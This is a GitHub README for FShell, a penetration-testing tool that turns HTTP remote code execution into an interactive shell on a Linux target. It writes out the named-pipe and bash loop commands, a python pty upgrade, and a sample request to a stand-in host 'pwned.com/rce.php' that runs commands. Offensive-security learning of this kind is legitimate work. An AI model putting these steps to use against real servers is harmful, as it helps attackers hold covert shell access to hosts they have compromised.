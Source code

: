 # **FShell**

## Description
FShell is my implementation of a Forward Shell. It's designed to get an interactive tty using remote code execution through a stageless protocol (eg HTTP).

## Why I should use a forward shell ?
- The remote server is not able to reach internet (no reverse shell possibility)
- The remote server is not initiating any new outgoing connection, only response to 'standard' request

However, it also have disadvantage
- Many requests per second (in case of a web server, it will generate many access log)
- Not fully interactive: no auto-completion (this theoretically could be implemented but that will generate huge amount of requests), remember that your input is send to the python script then to the remote server.

The requests frequency can be changed modifying ```BEACONING_DELAY``` variable.

## Requirements
### On attacker machine

Python3 & lib:
- requests
- termcolor

### On the target
Only Linux is supported at this time and required basic commands/tools on the remote system:
- python2 (and pty module)
- bash
- mkfifo
- cat
- tail
- ps
- grep
- awk
- kill


## Usage
Modify the ```WRITABLE_FOLDER``` variable if /tmp is not available for write or if you have something better (prefer /dev/shm)

You **must** redefine ```execute``` function to perform your remote code execution:

```python
def execute(cmd, verbose=False, timeout=None):
    """
    :cmd      Raw shell command to execute on the remote system
    :timetout MANDATORY: Used to kill blocking execution loop (used in named pipe creation).
              If you cannot, put named pipe creation in separated thread
    :verbose  Print full cmd executed on the remote system (Debug mode)
    """
    # Put your RCE code here
    r = requests.get('http://pwned.com/rce.php?cmd=%s' % (b64encode(cmd)), timeout=timeout)
    return r.text.strip() # You can apply formating if the output is not only the output of command
```
### Commands
- **help_shell**: Print commands help
- **get_sessid**: Print current session id on the remote server
- **upgrade_shell**: Start remote pty using python to create interactive shell
- **exit_shell**: Clear 'properly' the remote shell. If you're connected with another user than the first, please exit normally before.

### Demo

![FShell Demo](https://github.com/Hypnoze57/FShell/blob/master/demo.gif)


## How it's working
The concepts are pretty simple.

First you need to create a named pipe on the remote system.
It will be used to send command to the shell <br>
```mkfifo /tmp/input```.

Then, create a bash loop that reading the named pipe constantly and send it to an interactive bash process that sending stdin & stderr to an output file. <br>
```tail -f /tmp/input | /bin/bash -i > /tmp/output 2>&1 ```

[Reading named pipe] -> [Execute named pipe content] -> [Send stdin/stderr into output file] -> [Go to reading named pipe because of '-f' tail option]

Next part is to start a python thread that performing ```cat /tmp/output``` regularly to get the shell output. <br/>
If the thread find data, it will clear the output file content using ```echo '' > /tmp/output```
<br>*Tips: In order to avoid error logging for a non-existing file, the script execute 'id' command before starting the 'GetOutput' thread to create the output file.*

One of the last step is to get user input from our python script and send it to the named pipe<br>```echo USERCMD > /tmp/input```

And the **final trick** to back a remote interactive **tty** is the 'upgrade_shell' command.
This command perform a ```python -c 'import pty;pty.spawn("/bin/bash")'``` (and some export and aliases) to spawn a real tty for the current process (used in named pipe loop)


## Thanks

Thanks to [@ippsec](https://twitter.com/ippsec), I didn't knowing that something like this was possible before watching this videos [Stratosphere HTB Write Up](https://www.youtube.com/watch?v=uMwcJQcUnmY) !

Hope you enjoy it!
